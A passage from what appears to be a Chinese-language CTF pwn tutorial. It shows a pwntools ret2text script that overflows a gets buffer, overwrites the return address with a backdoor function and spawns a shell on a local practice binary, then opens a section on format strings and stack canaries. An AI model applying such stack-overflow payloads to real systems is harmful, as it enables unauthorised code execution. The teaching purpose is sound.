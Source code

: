 3. 这里我们仍然使用gdb来进行演示

   ```python
   from pwn import*
   p=process('./ret2text')
   
   backdoor=0x400717
   payload=b'a'*(0x20+0x8)+p64(backdoor)
   pause()
   p.sendline(payload)
   
   p.interactive()
   ```

   ![1692635499682](../images/1692635499682.png)

   可以看到，通过gets的输入，我们修改了栈上的 *ret_addr* 为 *backdoor* 函数，从而获得了shell

### 你喜欢金丝雀吗

考点：格式化字符串+ret2text+深入理解汇编
